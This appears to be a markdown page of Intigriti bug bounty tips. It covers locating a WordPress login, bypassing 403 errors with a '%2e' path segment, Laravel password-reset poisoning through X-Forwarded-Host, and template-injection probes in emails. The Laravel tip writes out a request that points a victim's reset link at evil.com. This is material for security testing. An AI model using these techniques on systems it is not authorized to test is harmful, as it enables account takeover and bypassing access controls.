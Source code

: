 # Intigriti Bug Bounty Tips

### Find WP login
Found credentials but no Wordpress login page?

Go to `/wp-admin/install.php` and WordPress will reveal the exact location!

![INT1](../../../_resources/INT1.png)

Credit: @sw33tLie

---

### 403 Forbidden bpyass:

Gettting a 403 error?

Try appending `%2e` after the first slash!

`https://host.com/path` = <span style="color:red">403 FORBIDDEN</span>

`https://host.com/%2e/path` = <span style="color:green">200 OK</span>

Credit: @rex0__

---

### Laravel trick:

Testing a laravel app?

On default settings, its vulnerable to HTTP host override via X-Forwarded-Host when used behind a reverse proxy.

```
POST /reset-password HTTP/1.1
HOST: neginx.laravel.app
X-Forwarded-Host: evil.com
email=victim@mail.com&username=sadvictim
```

Credit: @atul_hax

---

### <% in e-mails:

Testing for injections in e-mails?

Check the e-mail source code for literal characters or evaluated payloads & use basic locators such as `<%`.
